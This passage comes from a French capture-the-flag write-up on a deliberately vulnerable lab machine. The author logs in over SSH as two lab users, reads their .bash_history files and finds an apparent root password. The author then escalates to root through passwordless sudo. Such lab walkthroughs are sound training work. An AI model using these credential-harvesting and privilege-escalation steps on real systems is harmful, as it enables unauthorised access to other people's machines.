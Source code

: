 ### Accès SSH et élévation de privilèges, partie 2

Au tour d'Andrew Chen !

```console
root@blinils:~# ssh achen@192.168.56.104
BSD SSH 4.1
achen@192.168.56.104's password: 
Last login: Mon Mar  9 16:10:36 2009 from 192.168.0.51
[achen@ctf4 ~]$ head -n10 .bash_history
exit
clear
exit
sudo sy
su
root1234
su
exit
cat .bash_history 
su
[achen@ctf4 ~]$ 
```

Tiens donc, ne serait-ce pas le mot de passe de l'administrateur root dans le fichier .bash_history ?

```console
[achen@ctf4 ~]$ sudo -l
User achen may run the following commands on this host:
    (ALL) NOPASSWD: ALL

[achen@ctf4 ~]$ sudo su
[root@ctf4 achen]# 
[root@ctf4 achen]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=user_u:system_r:unconfined_t:SystemLow-SystemHigh
```

De toute façon, Andrew a tous les droits et peut passer root sans mot de passe. Au tour de Sally Orzek !

```console
root@blinils:~# ssh sorzek@192.168.56.104
BSD SSH 4.1
sorzek@192.168.56.104's password: 
Last login: Thu Dec  1 15:25:25 2016 from 192.168.56.1

[sorzek@ctf4 ~]$ cat .bash_history
ls /home
logout
ifconfig
/sbin/ifconfig
/sbin/ifconfig | grep inet
ls -lah /var/www/html
ls /home
ls /home/achen
ls /home/jdurbin
ls /home/jdurbin/mail
mysql -u root
cd /var/www/html
ls
less index.html 
ls
ls conf
cat conf/config.ini 
mysql -u root -p 
su
```